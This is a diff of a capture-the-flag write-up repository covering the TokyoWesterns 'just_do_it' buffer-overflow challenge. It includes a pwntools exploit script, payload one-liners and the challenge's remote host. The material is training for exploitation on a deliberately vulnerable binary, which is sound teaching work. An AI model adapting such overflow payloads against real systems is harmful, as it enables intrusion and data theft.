

Updated another 04

Changed region(s): [[0.0, 0.0, 0.839, 1.0]]

diff --git a/modules/04-bof_variable/tw17_justdoit/exploit.py b/modules/04-bof_variable/tw17_justdoit/exploit.py
@@ -6,10 +6,10 @@ target = process('just_do_it')
 #target = remote('pwn1.chal.ctf.westerns.tokyo', 12482)
 
 #Print out the starting prompt
-print target.recvuntil("password.\n")
+print(target.recvuntil(b"password.\n"))
 
 #Create the payload
-payload = "\x00"*20 + p32(0x0804a080)
+payload = b"\x00"*20 + p32(0x0804a080)
 
 #Send the payload
 target.sendline(payload)

diff --git a/modules/04-bof_variable/tw17_justdoit/readme.md b/modules/04-bof_variable/tw17_justdoit/readme.md
@@ -16,85 +16,54 @@ So we can see that the file it is trying to open is `flag.txt`. When we create t
 
 We can also see that this binary will essentially prompt you for a password, and if it is the right password it will print in a logged in message. If not it will print an authentication error. Let's see what the value of `PASSWORD` is, so we can know what we need to set our input equal to to pass the check. We see this via double clicking on `PASSWORD`:
 
-```
-                             PASSWORD                                        XREF[2]:     Entry Point(*), main:080486d0(R)
-        0804a03c c8 87 04 08     addr       s_P@SSW0RD_080487c8                              = "P@SSW0RD"
-```
+![password_val](pics/password_val.png)
 
 So we can see that the string it is checking for is `P@SSW0RD`. Now since our input is being scanned in through an fgets call, a newline character `0x0a` will be appended to the end. So in order to pass the check we will need to put a null byte after `P@SSW0RD`.
 
 ![password_val](pics/password_val.png)
 
-So we can see the value of the password is `P@SSW0RD`. So we should be able to pass the check like this:
+So we can see the value of the password is `P@SSW0RD`. So we should be able to pass the check with this script:
 
-```
-$    python -c 'print "P@SSW0RD" + "\x00"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
-Welcome my secret service. Do you know the password?
-Input the password.
-Correct Password, Welcome!
-```
+![solve_check](pics/solve_check.png)
 
-So we passed the check, however that doesn't solve the challenge. We can see that with the fgets call, we can input 32 bytes worth of data into `vulnBuf`. Let's see how many bytes `vulnBuf` can hold:
+Which we can run like this:
 
-```
-                             **************************************************************
-                             *                          FUNCTION                          *
-                             **************************************************************
-                             undefined main(undefined1 param_1)
-             undefined         AL:1           <RETURN>                                XREF[1]:     0804861d(W)
-             undefined1        Stack[0x4]:1   param_1                                 XREF[1]:     080485bb(*)
-             FILE *            EAX:4          flagFile                                XREF[2]:     0804861d(W),
-                                                                                                   08048655(W)
-             char              AL:1           local_EAX_154                           XREF[2]:     08048655(W),
-                                                                                                   080486dd(W)
-             int               EAX:4          cmp                                     XREF[1]:     080486dd(W)
-             undefined4        Stack[0x0]:4   local_res0                              XREF[1]:     080485c2(R)
-             undefined4        Stack[-0xc]:4  local_c                                 XREF[1]:     08048704(R)
-             char *            Stack[-0x14]:4 target                                  XREF[2]:     0804860d(W),
-                                                                                                   080486ee(W)
-             FILE *            Stack[-0x18]:4 flagHandle                              XREF[3]:     08048625(W),
-                                                                                                   08048628(R),
-                                                                                                   0804864b(R)
-             char[16]          Stack[-0x28]   vulnBuf                                 XREF[2]:     080486a6(*),
-                                                                                                   080486d9(*)
-                             main                                            XREF[4]:     Entry Point(*),
-                                                                                          _start:080484d7(*), 0804886c,
-                                                                                          080488c8(*)
-        080485bb 8d 4c 24 04     LEA        ECX=>param_1,[ESP + 0x4]
-```
+![run_solve](pics/run_solve.png)
 
-So we can see that it can hold 16 bytes worth of data (0x28 - 0x18 = 16). So we effectively have a buffer overflow vulnerability with the fgets call to `vulnBuf`. However it appears that we can't reach the `eip` register to get RCE. However we can reach `target` which is printed with a puts call, right before the function returns. So we can print whatever we want. That makes this code look really helpful:
 
-```
-  stream = fopen("flag.txt", "r");
-  if ( !stream )
-  {
-    perror("file open error.\n");
-    exit(0);
-  }
-  if ( !fgets(flag, 48, stream) )
-  {
-    perror("file read error.\n");
-    exit(0);
-  }
-```
+So we passed the check, however that doesn't solve the challenge. We can see that with the fgets call, we can input 32 bytes worth of data into `input`. Let's see how many bytes `input` can hold:
+
+![stack_frame](pics/stack_frame.png)
+
+So we can see that it can hold 16 bytes worth of data (0x28 - 0x18 = 16). So we effectively have a buffer overflow vulnerability with the fgets call to `input`. However it appears that we can't reach the `eip` register to get RCE. However we can reach `printedPtr` which is printed with a puts call, right before the function returns. So we can print whatever we want. That makes this code look really helpful:
+
+![fread](pics/fread.png)
 
 So we can see here that after it opens the `flag.txt` file, it scans in 48 bytes worth of data into `flag`. This is interesting because if we can find the address of `flag`, then we should be able to overwrite the value of `target` with that address and then it should print out the contents of `flag`, which should be the flag.
 
-```
-  .bss:0804A080 ; char flag[48]
-.bss:0804A080 flag            db 30h dup(?)           ; DATA XREF: main+95o
-.bss:0804A080 _bss            ends
-.bss:0804A080
-```
+![flag_bss](pics/flag_bss.png)
 
-So here we can see that `flag` lives in the bss, with the address `0x0804a080`. There are 20 bytes worth of data between `vulnBuf` and `target` (0x28 - 0x14 = 20). So we can form a payload with 20 null bytes, followed by the address of `flag`:
+So here we can see that `flag` lives in the bss, with the address `0x0804a080`. There are 20 bytes worth of data between `vulnBuf` and `target` (0x28 - 0x14 = 20). So we can form a payload with 20 null bytes, followed by the address of `flag`. Here is the exploit to do just that:
 
 ```
-  python -c 'print "\x00"*20 + "\x80\xa0\x04\x08"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
-Welcome my secret service. Do you know the password?
-Input the password.
-flag{gottem_boyz}
+#Import pwntools
+from pwn import *
+
+#Create the remote connection to the challenge
+target = process('just_do_it')
+#target = remote('pwn1.chal.ctf.westerns.tokyo', 12482)
+
+#Print out the starting prompt
+print target.recvuntil("password.\n")
+
+#Create the payload
+payload = "\x00"*20 + p32(0x0804a080)
+
+#Send the payload
+target.sendline(payload)
+
+#Drop to an interactive shell, so we can read everything the server prints out
+target.interactive()
 ```
 
 So we were able to read the contents of `flag.txt` with our exploit. Let's write an exploit to use the same exploit against the server they have with the challenge running to get the flag. Here is the python code:
@@ -121,19 +90,6 @@ target.interactive()
 
 Now let's run it:
 
-```
-$    python exploit.py
-[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 12482: Done
-Welcome my secret service. Do you know the password?
-Input the password.
-
-[*] Switching to interactive mode
-TWCTF{pwnable_warmup_I_did_it!}
-
-[*] Got EOF while reading in interactive
-$
-[*] Interrupted
-[*] Closed connection to pwn1.chal.ctf.westerns.tokyo port 12482
-```
+![flag_bss](pics/flag_bss.png)
 
 Just like that, we captured the flag!
